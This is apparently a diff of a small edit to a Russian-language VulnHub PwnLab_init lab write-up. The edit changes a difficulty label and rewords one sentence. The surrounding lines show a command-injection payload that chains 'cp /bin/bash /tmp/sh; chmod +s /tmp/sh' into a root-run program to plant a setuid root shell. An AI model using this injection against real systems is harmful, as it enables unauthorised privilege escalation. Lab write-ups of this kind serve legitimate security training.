

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Lin Easy - PwnLab_init/writeup.md, 2 parts joined by grey strips. Drawn GitHub-style.

````diff
--- a/Lin Easy - PwnLab_init/writeup.md
+++ b/Lin Easy - PwnLab_init/writeup.md
@@ -1,7 +1,7 @@
 # VulnHub - Lin Easy - PwnLab_init
 
 📅 Дата: 2025-07-19
-🧠 Сложность: Easy
+🧠 Сложность: Low
 💻 IP-адрес: 192.168.56.127
 
 ---
@@ -739,7 +739,7 @@ Message for root:
 ```
 
 Похоже, что если я передам `test; cp /bin/bash /tmp/sh; chmod +s /tmp/sh; /bin/echo nothing > /dev/null`
-то выполнится следующая череда команд с правами **root**
+то выполнится следующая последовательность команд с правами **root**:
 ```bash
 /bin/echo test; cp /bin/bash /tmp/sh; chmod +s /tmp/sh; /bin/echo nothing > /dev/null >> /root/messages.txt
 ```
````
